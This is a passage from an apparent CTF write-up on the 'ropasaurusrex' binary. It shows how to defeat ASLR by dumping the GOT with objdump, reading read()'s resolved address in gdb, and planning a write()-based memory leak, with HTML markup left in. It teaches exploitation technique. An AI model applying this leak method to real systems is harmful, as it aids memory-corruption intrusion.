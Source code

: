 Notice that the address of system() changes from <tt>0xb766e450</tt> to <tt>0xb76a7450</tt>. That's a problem!

## Defeating ASLR

So, what do we know?

Well, the binary itself isn't ASLRed, which means that we can rely on every address in it to be useful. Most importantly, the relocation table:

```

<span class="lnr"> 1 </span>$ objdump <span class="Special">-R</span> ./ropasaurusrex
<span class="lnr"> 2 </span>
<span class="lnr"> 3 </span>./ropasaurusrex:     <span class="Statement">file</span> format elf32-i386
<span class="lnr"> 4 </span>
<span class="lnr"> 5 </span>DYNAMIC RELOCATION RECORDS
<span class="lnr"> 6 </span>OFFSET   TYPE              VALUE
<span class="lnr"> 7 </span>08049600 R_386_GLOB_DAT    __gmon_start__
<span class="lnr"> 8 </span>08049610 R_386_JUMP_SLOT   __gmon_start__
<span class="lnr"> 9 </span>08049614 R_386_JUMP_SLOT   <span class="Statement">write</span>
<span class="lnr">10 </span>08049618 R_386_JUMP_SLOT   __libc_start_main
<span class="lnr">11 </span>0804961c R_386_JUMP_SLOT   <span class="Statement">read</span>
```

So we know the address - in the binary - of <tt>read()</tt> and <tt>write()</tt>. What's that mean? Let's take a look at their values while the binary is running:

```

<span class="lnr">1 </span>$ gdb ./ropasaurusrex
<span class="lnr">2 </span><span class="PreProc">(</span><span class="Special">gdb</span><span class="PreProc">)</span> run
<span class="lnr">3 </span>^C
<span class="lnr">4 </span>Program received signal SIGINT, Interrupt.
<span class="lnr">5 </span>0xb7fe2424 <span class="Error">in</span> __kernel_vsyscall <span class="PreProc">()</span>
<span class="lnr">6 </span><span class="PreProc">(</span><span class="Special">gdb</span><span class="PreProc">)</span> x/x 0x0804961c
<span class="lnr">7 </span>0x804961c:      0xb7f48110
<span class="lnr">8 </span><span class="PreProc">(</span><span class="Special">gdb</span><span class="PreProc">)</span> <span class="Statement">print</span><span class="Constant"> read</span>
<span class="lnr">9 </span><span class="PreProc">$1</span> <span class="Statement">=</span> <span class="Special">{</span><span class="Statement"><</span>text variable, no debug info<span class="Statement">></span><span class="Special">}</span> 0xb7f48110 <span class="Statement"><</span><span class="Statement">read</span><span class="Statement">></span>
```

Well look at that.. a pointer to read at a memory address that we know! What can we do with that, I wonder...?

I'll give you a hint: we can use the <tt>write()</tt> function - which we also know - to grab data from arbitrary memory and write it to the socket.

